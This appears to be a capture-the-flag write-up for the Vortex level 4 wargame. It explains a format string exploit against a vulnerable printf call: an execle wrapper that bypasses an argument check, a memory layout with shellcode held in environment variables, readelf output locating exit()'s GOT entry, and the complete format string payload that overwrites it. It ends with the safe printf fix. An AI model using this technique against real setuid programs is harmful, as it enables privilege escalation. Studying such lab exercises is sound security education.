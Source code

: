 Obviously, we need to exploit the `printf(...)` call on line 8 for which we can provide an arbitrary format string. This will allow us to set an arbitrary value anywhere in a writeable memory location. 

The first difficulty is bypassing the check on line 7 which makes passing any arguments conventionally on the command line impossible. I'm using an `execle`-wrapper passing an empty argument vector `argv_` and the actual arguments in the environment vector `envp`. These two vectors are adjacent in memory, so accessing `argv[3]`  actually corresponds to accessing `envp[2]`, this is where to actually put the format string parameter. For more information about `execle`, see the [glibc manual](http://www.gnu.org/software/libc/manual/html_node/Executing-a-File.html#Executing-a-File).

The next difficulty is to locate the format string in memory. Unlike the examples from the reading material, the buffer isn't immediately located on the stack. It's necessary to get hold of it from where the environment variables are located; and that's past the lower stack boundary, towards the higher memory addresses. Here's the memory layout:

    Stack       |                 |
                +-----------------+
                |                 |
     argv  ---> +-----------------+
                | Command line    |
                | arguments       |
     environ -> +-----------------+
                | Environment     |
                | variables:      |
                | - Format string |
                | - NOP-slide     |
                | - Shellcode     |
                +-----------------+
                |                 |
    0xffffffff  +=================+   end of memory address space


I wrote some sample programs that display the memory addresses of environment variables, to get a hint of where the shellcode would be located in the process memory (see `getenv.c` and `listenv.c`). This is roughly around `0xffffdXXX`.

Next step consists in choosing a memory location that will ultimately alter `%eip`'s value. I chose to overwrite the GOT's entry for libc's `exit()`, which is called at the end of the vulnerable program:

     $ readelf -r /vortex/vortex4 
     Relocation section '.rel.dyn' at offset 0x28c contains 1 entries:
      Offset     Info    Type            Sym.Value  Sym. Name
     08049ff0  00000106 R_386_GLOB_DAT    00000000   __gmon_start__
     
     Relocation section '.rel.plt' at offset 0x294 contains 4 entries:
      Offset     Info    Type            Sym.Value  Sym. Name
     0804a000  00000107 R_386_JUMP_SLOT   00000000   __gmon_start__
     0804a004  00000207 R_386_JUMP_SLOT   00000000   __libc_start_main
     0804a008  00000307 R_386_JUMP_SLOT   00000000   printf
     0804a00c  00000407 R_386_JUMP_SLOT   00000000   exit
The last entry with address `0x0804a00c` is the interesting one, this will be the target address. Following is the format string used to exploit this level:

     \x0c\xa0\x04\x08\x0d\xa0\x04\x08\x0e\xa0\x04\x08\x0f\xa0\x04\x08A%108\$n%5\$0206d%109\$n%5\$032d%110\$n%111\$n

Note: to avoid such a vulnerability, you should use `printf("%s", argv[3])` instead. Refer to the suggested reading material for details.

